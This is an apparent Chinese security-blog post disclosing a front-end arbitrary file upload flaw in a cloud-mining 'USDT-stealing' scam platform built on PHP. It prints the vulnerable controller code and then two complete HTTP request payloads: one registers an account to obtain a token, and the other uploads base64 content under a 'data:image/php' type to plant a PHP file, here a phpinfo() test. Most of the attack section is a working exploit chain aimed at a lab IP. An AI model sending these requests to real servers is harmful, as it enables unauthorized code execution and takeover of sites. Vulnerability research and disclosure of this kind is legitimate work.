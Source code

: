 #  【1day】某无提示云挖矿4链盗u系统前台文件上传漏洞   
原创 Mstir  星悦安全   2025-05-26 05:52  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**项目编号:10033      内部编号:XY-101547**  
  
**无授权提示云挖矿4链盗u系统，修复后台无法登录问题，代码全开源无后门，优化后台模板 修复刷新余额报错问题，去授权提示 带最新4链提币接口 后台可直接提币.**  
  
**Fofa指纹：系统敏感，不予提供**  
  
****## 0x01 漏洞分析&复现  
  
**位于 /app/data/controller/api/auth/Center.php 控制器的image 方法，通过post传入base64参数，直接被带入Storage::instance 方法中，且未加过滤，导致漏洞产生.**  
  
****  
```
/*** Base64 图片上传*/publicfunction image()  {    try {      $data = $this->_vali(['base64.require' => '图片内容不为空！']);      if (preg_match('|^data:image/(.*?);base64,|i', $data['base64'])) {        [$ext, $img] = explode('|||', preg_replace('|^data:image/(.*?);base64,|i', '$1|||', $data['base64']));        $info = Storage::instance()->set(Storage::name($img, $ext ?: 'png', 'image/'), base64_decode($img));        $this->success('图片上传成功！', ['url' => $info['url']]);      } else {        $this->error('解析内容失败！');      }    } catch (HttpResponseException $exception) {      throw $exception;    } catch (\Exception $exception) {      $this->error($exception->getMessage());    }  }
```  
  
  
**要调用这个接口仅需登录权限，且可以直接通过接口注册**  
  
**/app/data/controller/api/Auth.php 这里的 initialize 所需要参数都可以传参.**  
  
```
protected function initialize()  {    // 接收接口类型    $this->type = $this->request->request('api');    $this->type = $this->type ?: $this->request->header('api-name');    $this->type = $this->type ?: $this->request->header('api-type');    // 检查接口类型    if (empty($this->type)) {      $this->error("未获取到接口类型字段！");    }    if (!isset(UserAdminService::TYPES[$this->type])) {      $this->error("接口类型[{$this->type}]未定义！");    }    // 获取用户数据    $this->user = $this->getUser();    $this->uuid = $this->user['id'] ?? '';    if (empty($this->uuid)) {      $this->error('用户登录失败！', '{-null-}', 401);    }  }/**     * 获取用户数据     * @return array     */protectedfunction getUser(): array  {    try {      if (empty($this->uuid)) {        $token = input('token') ?: $this->request->header('api-token');        if (empty($token)) $this->error('登录认证TOKEN不能为空！');        [$state, $info, $this->uuid] = UserTokenService::instance()->check($this->type, $token);        if (empty($state)) $this->error($info, '{-null-}', 401);      }      return UserAdminService::instance()->get($this->uuid, $this->type);    } catch (HttpResponseException $exception) {      throw $exception;    } catch (\Exception $exception) {      $this->error($exception->getMessage());    }  }
```  
  
  
**这里路由的登录接口在 /app/data/controller/api/Login.php 控制器的 register 方法**  
  
```
/*** 用户统一注册入口* @throws \think\admin\Exception* @throws \think\db\exception\DbException*/publicfunction register()  {    $data = $this->_vali([                         'region_province.default' => '',                         'region_city.default'     => '',                         'region_area.default'     => '',                         'username.default'        => '',                         'phone.mobile'            => '手机号码格式错误！',                         'phone.require'           => '手机号码不能为空！',                         // 'verify.require'          => '验证码不能为空！',                         'password.require'        => '登录密码不能为空！',                         ]);    // if (MessageService::instance()->checkVerifyCode($data['verify'], $data['phone'])) {    //     @验证码验证能完    // } else {    //     $this->error('验证失败！');    // }    $map = ['phone' => $data['phone'], 'deleted' => 0];    if ($this->app->db->name($this->table)->where($map)->count() > 0) {      $this->error('手机号已注册，请使用其它手机号！');    }    $data['password'] = md5($data['password']);    $user = UserAdminService::instance()->set($map, $data, $this->type, true);    empty($user) ? $this->error('手机注册失败！') : $this->success('用户注册成功！', $user);  }
```  
  
  
**Payload:**  
  
****  
```
POST /data/api.login/register HTTP/1.1Host: 192.168.200.128Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Length: 33phone=13000000000&password=123456
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqoHywZPtwXEeeBe8kaIGfPaUOQS7XI3jc3POqCvViaP4ibZQl7mEMxIGQ/640?wx_fmt=other&from=appmsg "")  
  
**这里就获取到了Token，然后直接发包 Payload(注意这里 api-token 要换成你上面获取到的token):**  
  
****  
```
POST /data/api.auth.center/image HTTP/1.1Host: 192.168.200.128Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7api-token: 85449b8d46cd00ca5f15611aa0c6e44aapi-type: wapConnection: closeContent-Length: 65base64=data:image/php;base64,ZnVja3lvdTw/cGhwIHBocGluZm8oKTs/Pg==
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqgmbsU6kDIZ4icoWwicwgX4dCYZJB0PjyVNAibiaM5m2BBWhfk4iaXm4r7Qw/640?wx_fmt=other&from=appmsg "")  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqvrvicfYkYuHibenDWxL9d3jdGGM3vY2f8TThoT9jRS8fb0akagJtazaQ/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**漏洞文件源码关注公众号发送 250526 获取!**  
  
****  
  
  
代码审计  
公开课，  
仿真靶场将于不久后上线，有兴趣可加下群，发广告直接踢，仅交流技术.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqF8W2VFkaZHBhU4HNkxiclX7ZoFQvNXR4vhmC8s4WIgBnwNAbX2eFDjA/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
